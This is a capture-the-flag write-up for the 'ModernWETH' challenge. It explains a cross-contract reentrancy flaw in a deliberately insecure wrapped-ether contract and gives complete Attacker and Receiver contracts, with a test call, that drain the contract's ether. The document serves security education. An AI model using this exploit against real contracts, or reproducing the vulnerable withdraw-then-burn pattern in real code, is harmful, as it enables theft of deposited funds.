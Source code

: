# ModernWETH

## Challenge

We are again only provided with one contract, which is an ERC-20:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {ReentrancyGuard} from "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";

/**
 * @title ModernWETH: The Insecure Modern Wrapped Ether
 */
contract ModernWETH is ERC20("Modern Insec Wrapped Ether", "mWETH"), ReentrancyGuard {
    
    /**
     * @notice Deposit ether to get wrapped ether
     */
    function deposit() public payable {
        _mint(msg.sender, msg.value);
    }

    /**
     * @notice Withdraw, burn wrapped ether to get ether
     */
    function withdraw(uint256 wad) external nonReentrant {
        (bool success,) = msg.sender.call{value: wad}("");
        require(success, "mWETH: ETH transfer failed");

        _burn(msg.sender, wad);
    }

    /**
     * @notice Withdraw, burn all wrapped ether to get all deposited ether
     */
    function withdrawAll() external nonReentrant {
        (bool success,) = msg.sender.call{value: balanceOf(msg.sender)}("");
        require(success, "mWETH: ETH transfer failed");

        _burnAll();
    }

    /**
     * @notice Burn all internal utility to burn all wrapped ether from the caller
     */
    function _burnAll() internal {
        _burn(msg.sender, balanceOf(msg.sender));
    }
}
```

Challenge Description:
In the ever-evolving world of decentralized finance, an ambitious developer took it upon himself to update the well-established WETH9. The result was ModernWETH, a modernized version of Solidity, that rapidly attracted deposits of over 1000 Ether.

However, we've encountered a challenge. Hidden within the code, a potential vulnerability threatens the security of the funds locked within the contract. This situation calls for the dedication and expertise of blockchain security auditors. Are you ready to step up, solve this issue, and play a crucial role in preserving the sanctity of the Ethereum ecosystem? This is the test of our resolve and adaptability, something I've seen in this community time and again.

📌 Starting with **10 ETH**, recover `1000 ETH` from the `ModernWETH` contract.

📌 Recover all `ETH` to avoid further losses from `ModernWETH` contract. Whitehat hacker should end up with **1010 ETH**.

## Solution

The problem here is classic cross-contract reentrancy in the withdrawAll() function. The problem is that we withdraw the money which leads to an outside call, and afterward all our tokens get burned. The issue is that nothing stops us to reenter through the transfer() function which is not protected by a reentrancy guard, and just transferring our tokens to another contract before they get burned. After the call, the function checks how many tokens we own, which are 0, and doesn't burn anything. But we still got our 10 ether out. You can see the issue in this code snippet that I  modified:

```solidity
function withdrawAll() external nonReentrant {
    //Now we still have 10 ETH worth of tokens which is the amount of ETH we get out
    (bool success,) = msg.sender.call{value: balanceOf(msg.sender)}("");
    //Now we own 0 tokens and nothing can be burnt
    
    require(success, "mWETH: ETH transfer failed");

    _burnAll();
}
```

The key part is to also have the contract you hold your tokens in during the burning process under your control, so you can return them afterward. I modified some Attakc contracts that I already had from SEETF2023 to cover both functionalities.

Attacker.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./ModernWETH.sol";
import "./Receiver.sol";

contract Attacker
{
    ModernWETH public weth;
    Receiver public receiver;
    address public owner;

    constructor(address _wethAddress) {
        weth = ModernWETH(payable(_wethAddress));
        owner = msg.sender;
        receiver = new Receiver(_wethAddress);
    }

    function attack() public payable {
        require(msg.value == 10 ether, "You need to send 10 ether to start the attack");

        //First we deposit our 10 eth
        weth.deposit{value: 10 ether}();

        //Now we abuse the bug 100 times to get all the money out of the contract.
        while(address(weth).balance > 0) {
            //Call the withdraw function
            weth.withdrawAll();

            //Call the giveMyMoneysBack function to get the tokens out of the receiver contract
            receiver.giveMyMoneysBack();
        }

        //Send all the profits to the owner
        owner.call{value: address(this).balance}("");
    }

    receive() external payable {
        //Move the tokens to our receiver contract to not burn them
        weth.transfer(address(receiver), 10 ether);
    }
}
```

Receiver.sol
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.17;

import "./ModernWETH.sol";
import "./Receiver.sol";

contract Receiver
{
    ModernWETH public weth;
    address public attacker;

    constructor(address _wethAddress) {
        weth = ModernWETH(_wethAddress);
        attacker = msg.sender;
    }

    function giveMyMoneysBack() public {
        weth.transfer(attacker, weth.balanceOf(address(this)));
    }
}
```

Using the attack contract the challenge can be solved with 2 calls in the foundry test case:

```solidity
//Deploy the attacker contract
Attacker attacker = new Attacker(address(modernWETH));

//Call the attack function.
attacker.attack{value: 10 ether}();
```